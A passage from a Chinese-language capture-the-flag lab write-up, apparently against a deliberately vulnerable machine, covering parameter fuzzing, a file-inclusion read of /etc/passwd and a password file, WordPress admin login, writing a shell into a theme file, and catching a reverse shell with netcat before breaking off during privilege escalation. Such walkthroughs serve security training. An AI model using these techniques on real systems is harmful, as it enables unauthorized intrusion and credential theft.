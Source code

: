 ```
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000341:   200        7 L      19 W       206 Ch      "file"

Total time: 0.611152
Processed Requests: 951
Filtered Requests: 950
Requests/sec.: 1556.076

```

发现`file`参数。包含并访问`http://192.168.137.146/index.php?file=location.txt`<br/>  

<br/> 根据提示，尝试刚刚的另一个php页面，也就是`/image.php`，访问`http://192.168.137.146/image.php?secrettier360=/etc/passwd`，发现可以进行文件包含。<br/>  

<br/> 发现用户`victor`和`saket`。仔细看，会发现提示：<br/>  

<br/> 那么利用文件包含去查看password.txt<br/>  

<br/> 得到密码：`follow_the_ippsec`。<br/> 当然，在此之前我尝试了利用文件包含去包含了一些系统敏感信息，ssh私钥等。都无进展。<br/> 此处我想到了ssh进行登录，后来发现登不进去。于是尝试了wordpress的后台登陆。登陆成功。

### getshell

#### wordpress渗透

拿到wordpress的后台之后，通常有常规的两种getshell思路：
1.  上传插件的地方进行文件上传。 1.  找到可以进行修改php文件的地方写入shell。通常是主题编辑那里。 
文件上换那里我试了一下没成功。但是找到了可以更改的php文件，写入了shell。

去网上找了一下路径，最终访问`http://192.168.137.146/wordpress/wp-content/themes/twentynineteen/secret.php`获得了初始立足点。

```
# nc -lvnp 8081
listening on [any] 8081 ...
connect to [192.168.137.135] from (UNKNOWN) [192.168.137.146] 39296
Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:29:39 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami 
www-data
$

```

### 提权

sudo -l发现有可以执行的脚本enc，但是需要密码。<br/> 那么尝试find密码或者备份文件之类的。<br/> 最终，`/opt/backup/server_database/backup_pass`发现密码。<br/> 继续去执行enc。发现生成了`enc.txt`和`key.txt`。看到这两个文件名，我想到了openssl解密。在目标靶机上用python开启http的8000端口服务：
